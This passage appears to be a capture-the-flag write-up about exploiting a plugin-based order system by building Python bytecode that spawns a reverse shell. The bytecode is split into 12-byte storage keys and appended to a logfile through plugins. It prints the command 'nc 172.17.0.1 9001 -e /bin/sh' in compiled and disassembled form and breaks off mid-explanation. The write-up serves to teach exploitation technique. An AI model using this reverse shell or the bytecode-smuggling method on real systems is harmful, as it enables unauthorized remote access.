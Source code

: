 0. Calculate proof of work to get the real target port  
1. Craft python bytecode which will spawn a reverse shell to the attacker's machine  
2. Divide this code into chunks of 12 bytes and store them as keys in the storage  
3. Upload and run one plugin for each chunk which appends the key to the logfile aka exploit plugin  
4. Run the exploit plugin

### Perform proof of work

When connecting to the service, we were greeted with a small PoW:

```  
nc 23.88.100.81 4444  
Welcome to our new Ordersystem. To spawn a new instance, please solve this
pow:  
challenge = 507a9bdca6d2c71c130b (decode this!)  
please send x in hex format so that md5(x+challenge) starts with 6 zeros. x
should be 10 bytes long :  
```

We didn't spend much time on the script which brute forces a response which
results in an md5 hash with 6 leading zeros when added to the given challenge.

### Reverse shell as Python bytecode

At first, we tried the inbuilt compiler to do the hard work for us:

```  
In [2]: plugin = compile("import os;os.system('nc 172.17.0.1 9001 -e
/bin/sh')", "", "exec")

In [3]: plugin.co_code  
Out[3]: b'd\x00d\x01l\x00Z\x00e\x00\xa0\x01d\x02\xa1\x01\x01\x00d\x01S\x00'  
```

Which results in the following operations:

```  
In [4]: import dis  
  ...: dis.disassemble(plugin)  
 1           0 LOAD_CONST               0 (0)  
             2 LOAD_CONST               1 (None)  
             4 IMPORT_NAME              0 (os)  
             6 STORE_NAME               0 (os)  
             8 LOAD_NAME                0 (os)  
            10 LOAD_METHOD              1 (system)  
            12 LOAD_CONST               2 ('nc 172.17.0.1 9001 -e /bin/sh')  
            14 CALL_METHOD              1  
            16 POP_TOP  
            18 LOAD_CONST               1 (None)  
            20 RETURN_VALUE  
```

But viewing the disassembled code highlighted a few problems:

1. We do not have access to the constants `0` and `None` (we can only create string constants by storing keys)  
2. The `nc` command is too long to fit into a single key
